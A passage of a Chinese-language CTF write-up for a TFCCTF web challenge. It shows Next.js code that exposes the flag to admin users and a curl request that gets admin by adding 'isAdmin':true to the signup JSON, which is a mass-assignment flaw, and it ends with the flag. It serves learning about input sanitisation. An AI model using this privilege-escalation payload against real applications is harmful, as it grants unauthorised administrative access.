 ```
  );
};

export default Home;

export const getServerSideProps: GetServerSideProps<Props> = async (
  context
) => {
  const users = (await prisma.user.findMany()) as Props["users"];

  for (const user of users) {
    if (user.isAdmin) {
      user.flag = process.env.FLAG!;
    }
  }

  return {
    props: {
      users,
    },
  };
};
//主要功能是创建用户
```

![image-20220801123359706](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208011233767.png?x-oss-process=hzy)

再看这个文件

![image-20220801130040083](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208011300142.png?x-oss-process=hzy)

这个调用了sqlite DB，然后最后我们看到个格式化以下json有效负载并尝试创建管理员用户名，所以我们只需要自己写进去isadmin就可以了![image-20220801131255957](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208011312028.png?x-oss-process=hzy)

![image-20220801131424894](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208011314963.png?x-oss-process=hzy)

![image-20220801131516706](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208011315749.png?x-oss-process=hzy)

当然也可以直接用linux命令

```
curl -i -H 'Content-Type: application/json' -d '{"username":"huang","isAdmin":true}' 'http://01.linux.challenges.ctf.thefewchosen.com:49293/api/auth'
```

![image-20220731211605753](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207312116807.png?x-oss-process=hzy)

![image-20220731210928710](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207312109066.png?x-oss-process=hzy)

TFCCTF{S4n1t1z3_Y0ur_1nput5!}

## DEEPLINKS
